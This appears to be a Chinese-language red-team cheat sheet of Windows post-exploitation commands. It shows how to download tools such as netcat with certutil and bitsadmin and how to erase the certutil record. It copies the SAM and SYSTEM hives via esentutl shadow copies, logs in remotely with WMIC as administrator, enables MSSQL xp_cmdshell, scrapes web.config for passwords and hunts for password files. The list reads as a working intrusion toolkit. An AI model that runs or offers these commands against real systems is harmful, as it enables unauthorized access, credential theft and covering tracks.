 
### Win-系统下载文件

certutil下载文件: certutil -urlcache -split -f http://192.168.5.21:888/nc.txt c:\nc.txt  
certutil删除记录: certutil -urlcache -split -f http://192.168.1.115/robots.txt delete  
bitsadmin下载文件: bitsadmin /rawreturn /transfer getfile http://download.sysinternals.com/files/PSTools.zip c:\Pstools.zip

esentutl.exe /y /vss C:\Windows\System32\config\System /d system
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d sam

---

### Win-Wmic命令

wmic远程连接机器: wmic /node:"192.168.1.20" /user:"domain\\administrator" /password:"123456"  
查看系统安装软件: wmic product get name,version  
查看系统版本: wmic OS get Caption,CSDVersion,OSArchitecture,Version  
根据Pid查找进程路径: wmic process get name,executablepath,processid|findstr pid  
查看磁盘信息: Wmic logicaldisk  
查看组、hostname等信息: wmic computersystem get Name, Domain, Manufacturer, Model, Username, Roles/format:list  
查看当前系统是否是VMWARE: wmic bios list full | find /i "vmware"  
查看当前系统是否有屏保及延迟: wmic desktop get screensaversecure,screensavertimeout

---

### Win-Mssql环境

mssql开启xp\_cmdshell: EXEC sp\_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp\_cmdshell', 1;RECONFIGURE;  
mssql输出文件: exec master..xp\_cmdshell '>>c:\\windows\\temp\\info.txt set /p\="base64\_encode" 查看c盘下web.config文件: findstr /c:"User Id\=" /c:"Password\=" /si web.config >> tmps.logs 常规工作组内网环境下的mssql实例: PowerShell -Command "[System.Data.Sql.SqlDataSourceEnumerator]::Instance.GetDataSources()"

---

### Win-压缩解压

7Z压缩文件  
7z.exe a OutputFile InputFile  
7Z解压文件  
7z.exe x InputFile OutputFile  
RAR压缩文件  
rar.exe a OutputFile InputFile  
RAR解压文件  
rar.exe x InputFile OutputFile

---

### Win-查找文件

dir c:\\ /s /b | find "win.ini"  
dir c:\\ /s /b | find "navicat.exe"  
dir c:\\ /s /b | find "finalshell.exe"  
cd /d C:\\ && dir /b /s password.txt  
where /R C:\\ password.txt

---